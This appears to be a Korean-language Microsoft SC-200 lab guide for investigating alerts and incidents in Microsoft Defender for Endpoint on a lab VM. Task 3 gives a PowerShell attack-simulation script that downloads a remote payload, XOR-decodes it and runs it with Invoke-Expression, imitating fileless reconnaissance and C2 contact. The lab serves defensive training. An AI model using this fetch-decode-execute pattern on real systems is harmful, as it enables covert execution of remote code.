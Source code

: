 ```yaml
---
lab:
  title: 연습 4 - 엔드포인트용 Microsoft Defender를 사용하여 공격 완화
  module: Learning Path 4 - Mitigate threats using Microsoft Defender for Endpoint
---
```


# 학습 경로 4 - 랩 1 - 연습 2 - 엔드포인트용 Microsoft Defender를 사용하여 위협 완화

## 랩 시나리오

![랩 개요입니다.](../Media/SC-200-Lab_Diagrams_Mod2_L1_Ex2_10_19.png)

여러분은 엔드포인트용 Microsoft Defender를 구현하고 있는 회사에서 일하는 보안 운영 분석가입니다. 귀하의 관리자가 몇몇 디바이스를 온보딩하여 보안 운영(SecOps) 팀 응답 절차에 필요한 변경 내용에 대한 인사이트를 제공하려고 합니다.

엔드포인트용 Defender 공격 완화 기능을 탐색하려면 성공적인 디바이스 온보딩을 확인하고 해당 프로세스 중에 생성된 경고 및 인시던트를 조사합니다.

### 이 랩의 예상 완료 시간은 30분입니다.

### 작업 1: 디바이스 온보딩 확인

이 작업에서는 디바이스가 성공적으로 온보딩되었는지 확인하고 테스트 경고를 만듭니다.

1. 현재 위치가 Microsoft Edge 브라우저의 Microsoft Defender XDR 포털이 아닌 경우 <https://security.microsoft.com>(으)로 이동하고 테넌트 관리자로 로그인합니다.

1. 왼쪽 메뉴의 **자산** 영역에서 **디바이스**를 선택합니다. 계속하기 전에 WIN1이 디바이스 페이지에 나타날 때까지 기다려 주세요. 그렇지 않으면, 나중에 생성될 경고를 보기 위해 이 작업을 반복해야 할 수 있습니다.

    >**참고:** 온보딩 프로세스를 완료하고 한 시간 후에 디바이스 목록에 디바이스가 표시되지 않으면 온보딩 또는 연결 문제가 표시될 수 있습니다.

1. Microsoft Defender XDR 포털 왼쪽 메뉴 모음에서 **시스템** 섹션을 확장하고 **설정**을 선택한 다음, *설정* 페이지에서 **엔드포인트**를 선택합니다.

1. 디바이스 관리 섹션에서 **온보딩**을 선택하고 *"Windows 10 및 11"* 이 운영 체제로 선택되어 있는지 확인합니다. 이제 *"온보딩된 첫 번째 디바이스"* 메시지에 *완료됨*이 표시됩니다.

1. *"2" 섹션에서 아래로 스크롤합니다. 검색 테스트 실행"*, **복사** 단추를 선택하여 검색 테스트 스크립트를 복사 합니다.  

1. WIN1 가상 머신의 Windows 검색 창에서 **CMD**를 입력하고 명령 프롬프트 앱의 오른쪽 창에서 **관리자 권한으로 실행**을 선택합니다.

1. “사용자 계정 컨트롤” 창이 표시되면 **예**를 선택하여 앱을 실행할 수 있도록 합니다. 

1. **관리자: 명령 프롬프트** 창을 마우스 오른쪽 단추로 클릭하여 스크립트를 붙여넣고 **Enter** 키를 눌러 실행합니다.

    >**참고:** 스크립트를 성공적으로 실행한 후 몇 분 후에 Microsoft Defender XDR 포털에서 경고가 생성되면 창이 자동으로 닫힙니다.

### 작업 2: 경고 및 인시던트 조사

이 작업에서는 이전 작업의 온보딩 검색 테스트 스크립트에서 생성된 경고 및 인시던트를 조사합니다.

1. Microsoft Defender XDR 포털의 왼쪽 메뉴 모음에서 **조사 및 응답**을 확장한 다음 **인시던트 및 경고**를 확장하고 **경고**를 선택합니다.

    >**참고:** 업데이트된 버전의 Microsoft Defender XDR 포털 페이지에서 *인시던트 및 경고*가 *조사 및 응답* 메뉴 제목 아래에 있습니다.

1. **경고** 창에서 *[TestAlert]의심스러운 PowerShell 명령줄*이라는 경고를 선택하여 세부 정보를 로드합니다.

1. *경고 스토리* 타임라인을 검토한 다음 *세부 정보* 및 *권장 사항* 탭을 검토합니다.

    >**참고:** 경고 *세부 정보* 탭에서 *인시던트 세부 정보* 섹션까지 아래로 스크롤하고 *한 엔드포인트에서 실행 인시던트* 링크를 선택하여 인시던트를 열 수 있습니다.

1. Microsoft Defender XDR 포털의 왼쪽 메뉴 모음에서 **인시던트 및 경고**를 선택한 다음, **인시던트**를 선택합니다.

1. 필터 오른쪽에서 **X**를 선택하여 *경고 심각도* 필터를 지웁합니다.

1. *[TestAlert]의심스러운 PowerShell 명령줄*이란 새 인시던트가 오른쪽 창에 나타납니다. 인시던트 이름을 선택하여 세부 정보를 로드합니다.

1. **인시던트 관리** 링크(연필 아이콘 포함)를 선택하면 새 창 블레이드가 나타납니다.

1. **인시던트 태그** 아래에서 "시뮬레이션"을 입력하고 **시뮬레이션(새로 만들기)** 를 선택하여 새 태그를 만듭니다.

1. **내게 할당** 토글을 선택하여 사용자 계정(Me)을 인시던트 소유자로 추가합니다.

1. **분류** 아래에서 드롭다운 메뉴를 확장합니다.

1. **정보, 예상 작업**에서 **보안 테스트**를 선택합니다.

1. **저장**을 선택하여 인시던트를 업데이트하고 완료합니다.

1. *공격 스토리, 경고, 자산, 조사, 증거 및 대응*과 *요약* 탭의 내용을 검토합니다. 디바이스 및 사용자가 *자산* 탭 아래에 있습니다. 실제 인시던트에서 *공격 스토리* 탭에는 *인시던트 그래프*가 표시됩니다. **힌트:** 일부 탭은 디스플레이 크기 때문에 숨겨질 수 있습니다. 줄임표 탭(...)을 선택하여 해당 탭을 표시합니다.

### 작업 3 공격 시뮬레이션

>**경고:** 이 시뮬레이션된 공격은 연습을 통한 훌륭한 학습 소스입니다. Azure 테넌트에서 제공하는 과정을 사용할 때 이 랩에 제공된 지침의 지침에서만 공격을 수행합니다.  이 테넌트에서 이 교육 과정을 완료한 *후에* 다른 시뮬레이션된 공격을 수행할 수 있습니다.

이 작업에서는 WIN1 가상 머신에 대한 공격을 시뮬레이션하고 엔드포인트용 Microsoft Defender 공격이 감지되고 완화되는지 확인합니다.

1. WIN1 가상 머신에서 **시작** 단추를 *마우스 오른쪽 단추로 클릭*하고 **Windows PowerShell(관리자)** 을 선택합니다.

1. “사용자 계정 컨트롤” 창이 표시되면 **예**를 선택하여 앱을 실행할 수 있도록 합니다.

1. 다음 시뮬레이션 스크립트를 복사하여 PowerShell 창에 붙여넣고 **Enter** 키를 눌러 실행합니다.

    ```PowerShell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
    ;$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');
    $base64String = (Invoke-WebRequest -URI "https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt" -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
    $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
    ```

    >**참고:** 스크립트를 실행하는 동안 오류(빨간색)가 발생하면 메모장 앱을 열고 스크립트를 빈 파일에 복사할 수 있습니다. 메모장에서 *자동 줄 바꿈*이 켜져 있는지 확인합니다. 그런 다음 PowerShell에서 스크립트의 각 줄을 개별적으로 복사하고 실행합니다. 또한 랩 시작 시 다운로드한 파일에 PowerShell 스크립트(attacksim.ps1)가 제공되었습니다. 스크립트를 사용하려면 **Windows PowerShell(관리자)** 에서 *\Users\Admin\Desktop\Allfiles* 폴더로 이동하여 *.\attacksim.ps1*을 입력하고 **Enter** 키를 눌러 실행합니다.

1. 스크립트는 여러 줄의 출력과 *도메인에서 도메인 컨트롤러를 확인하지 못함*이라는 메시지를 생성합니다. 몇 초 후에 *메모장* 앱이 열립니다. 시뮬레이션된 공격 코드가 메모장에 삽입됩니다. 자동으로 생성된 메모장 인스턴스를 열어 두어 전체 시나리오를 경험해 보세요. 시뮬레이션된 공격 코드는 외부 IP 주소(C2 서버 시뮬레이션)와 통신을 시도합니다.

### 작업 4: 시뮬레이션된 공격을 단일 인시던트로 조사

1. Microsoft Defender XDR 포털의 왼쪽 메뉴 모음에서 **조사 및 응답**을 확장한 다음 **인시던트 및 경고**를 확장하고 **인시던트**를 선택합니다.

    >**참고:** 업데이트된 버전의 Microsoft Defender XDR 포털 페이지에서 *인시던트 및 경고*가 *조사 및 응답* 메뉴 제목 아래에 있습니다.

1. *하나의 엔드포인트에서 방어 회피 및 검색과 관련된 다단계 인시던트*라는 새 인시던트가 오른쪽 창에 있습니다. 인시던트 이름을 선택하여 세부 정보를 로드합니다.

    >**참고:** 인시던트가 표시되지 않으면 필터 오른쪽에서 **X**를 선택하여 *경고 심각도* 필터를 지워야 합니다.

1. *공격 스토리* 탭에서 **경고** 및 **인시던트 세부 정보** 창을 축소하여 전체 **인시던트 그래프**를 봅니다.

1. **인시던트 그래프 노드**를 마우스로 가리키고 선택하여 *엔터티*를 검토합니다.

1. **경고** 창(왼쪽)을 다시 확장하고 **공격 스토리 재생***실행* 아이콘을 선택합니다. 경고별 공격 타임라인 경고를 표시하고 *인시던트 그래프*를 동적으로 채웁니다.

1. *공격 스토리, 경고, 자산, 조사, 증거 및 대응*과 *요약* 탭의 내용을 검토합니다. 디바이스 및 사용자가 *자산* 탭 아래에 있습니다. **힌트:** 일부 탭은 디스플레이 크기 때문에 숨겨질 수 있습니다. 줄임표 탭(...)을 선택하여 해당 탭을 표시합니다.

1. **증거 및 대응** 탭에서 **IP 주소**를 선택한 다음, 표시된 *IP 주소*를 선택합니다. 팝업 창에서 IP 주소 세부 정보를 검토하고 아래로 스크롤하여 **IP 주소 페이지 열기** 단추를 선택합니다.

1. 조직 탭에서 *IP 주소* 페이지 *개요, 인시던트 및 경고 및 관찰됨*의 내용을 검토합니다. 일부 탭에는 IP 주소에 대한 정보가 포함되어 있지 않을 수 있습니다.

## 이 랩을 완료했습니다.
